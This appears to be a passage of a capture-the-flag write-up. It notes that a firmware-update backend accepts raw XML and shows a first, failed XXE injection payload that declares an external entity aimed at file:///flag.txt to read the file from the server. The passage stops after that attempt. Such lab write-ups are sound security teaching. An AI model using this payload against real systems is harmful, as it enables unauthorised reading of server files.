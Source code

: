 ![image.png](/assets/images/CTFTryOut/image1.png)

This suggested that the backend accepts raw XML — a perfect target for **XXE (XML External Entity)** injection.

---

## ⚙️ Exploitation – XXE Injection

I crafted a malicious XML payload to abuse XXE and read the `/flag.txt` file directly from the server.

### ❌ First Attempt (Failed):

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY>
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
  <Firmware>
    <Version>&xxe;</Version>
  </Firmware>
</FirmwareUpdateConfig>

```
